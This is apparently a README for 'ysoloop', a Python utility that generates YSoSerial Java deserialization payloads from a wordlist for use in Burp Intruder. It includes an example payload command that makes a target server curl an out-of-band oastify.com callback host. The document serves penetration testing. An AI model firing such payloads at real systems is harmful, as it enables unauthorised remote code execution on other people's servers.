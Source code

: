 # ysoloop
Utilities for insecure serialization

This repository was created for script utilities for exploiting insecure serializations.

YsoLoop.py is intended to generate all payloads that can be used in the insecure serialization exploitation process. It uses "wordlist.txt", which is a base for all possible YSoSerial payloads.

With the output of this script, it is possible to use it as a payload in tools such as Intruder (BurpSuite), or custom scripts.

Usage recommendation:
python3 YsoLoop.py > payloads.txt

Ps.1: To run the script, it must be located in the same directory as "ysoserial-all.jar" e a "wordlist.txt"
Ps.2: The payload command must be adjusted. Ex: base_command = "java -jar ysoserial-all.jar {} 'curl http://abcdefghijklm.oastify.com' | base64 -w0"

*Script still in the process of being improved.
